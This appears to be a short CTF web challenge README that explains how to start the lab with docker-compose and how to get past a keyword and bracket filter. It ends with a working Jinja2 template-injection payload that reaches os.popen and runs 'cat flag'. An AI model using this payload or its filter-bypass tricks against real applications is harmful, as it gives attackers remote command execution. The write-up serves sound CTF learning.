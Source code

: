 # Day1 web1


Use 
```
docker-compose up -d
```

Access localhost:8003


filter the character `[]`,`()`, use `[[]]`, `(())` to bypass it.`import`,`os`,`sys`,`commands`,`subprocess`,`open`,`eval`,use `imimportport` etc to bypass it



payload
```python
{{[[]].__class__.__base__.__subclasses__(())[155].__init__.__globals__['__builtins__']['__imimportport__']("ooss").popopenen("cat flag").read(())}}
```

